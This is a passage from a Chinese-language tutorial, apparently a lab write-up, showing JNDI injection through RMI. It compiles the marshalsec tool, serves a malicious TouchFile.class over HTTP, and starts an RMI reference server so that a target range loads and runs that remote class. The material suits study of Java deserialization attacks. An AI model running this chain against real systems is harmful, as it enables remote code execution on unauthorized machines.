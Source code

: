 **要确保启动 web 服务的目录下存在刚刚编译完成的 class 文件**

```bash
python3 -m http.server 8080
# -m Python解释器在执行命令行时,直接从标准库中查找指定的模块,并执行该模块中的代码
```

利用 marshalsec 工具：https://github.com/mbechler/marshalsec

**marshalsec**：是一款 Java 反序列化利用工具，可以很方便的启动一个 RMI 服务，通过这个服务去访问攻击者准备好的恶意执行类来达到远程命令执行的目的。

**RMI**：Remote Method Invocation，远程方法调用；是允许运行在一个 Java 虚拟机的对象调用运行在另一个 Java 虚拟机上的对象的方法。 这两个虚拟机可以是运行在相同计算机上的不同进程中，也可以是运行在网络上的不同计算机中。

**JNDI 注入 + RMI 实现攻击的原理**：把恶意的 Reference 类，绑定在 RMI 的 Registry 里面，在客户端(靶机)调用 lookup 远程获取远程类的时候，就会获取到 Reference 对象，获取到 Reference 对象后，会去寻找 Reference 中指定的类，如果查找不到则会在 Reference 中指定的远程地址去进行请求，请求到远程的类后会在本地进行执行。即 JNDI 发现和查找数据和对象，这些对象可以存储在不同的命名或目录服务中，例如远程方法调用(RMI)。

**Registry**：一个注册表，存放着远程对象的位置(ip、端口、标识符)。

**lookup**：获取指定的远程对象。

marshalsec 项目是未编译的源码，所以需要使用 Maven 来生成 Jar 包，方便运行

Mavan 安装方式可见博客内容：[Linux 安装 Maven 环境](https://mewhz.com/posts/linux-maven)

```bash
git clone https://github.com/mbechler/marshalsec.git
# 下载项目
cd marshalsec
# 进入目录
mvn clean package -DskipTests
# 编译项目并生成 Jar 包
# clean 清理本地输出缓存
# package 打包到本项目，生成 jar 文件
# -DskipTests 编译测试文件，跳过测试
cd target
# 进入 Jar 包存放的目录
```

借助 marshalsec 项目，启动一个 RMI 服务器，监听 9999 端口，并指定加载远程类 TouchFile.class

可以理解为一个中介，当有人访问 9999 端口，就会让这个人访问 TouchFile.class 把它自动下载到本地

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.1.9:8080/#TouchFile" 9999
# -cp命令用于指定Java程序运行时所需的classpath路径：
	# 基本语法是 java -cp path/to/class/files MainClass
	# path/to/class/files是Java类文件所在的目录或jar包文件路径
	# MainClass是包含main方法的Java类的全限定类名，它的执行将作为Java程序的入口点
# http:xx 加载的远程类所在的地址和 class 文件名，使用 # 进行划分
# 9999 RMI 服务器的监听端口
```

向靶场发送 payload，并带上 RMI 的地址：

![image-20230722025051350](https://pic.mewhz.com/blog/image-20230722025051350.png)
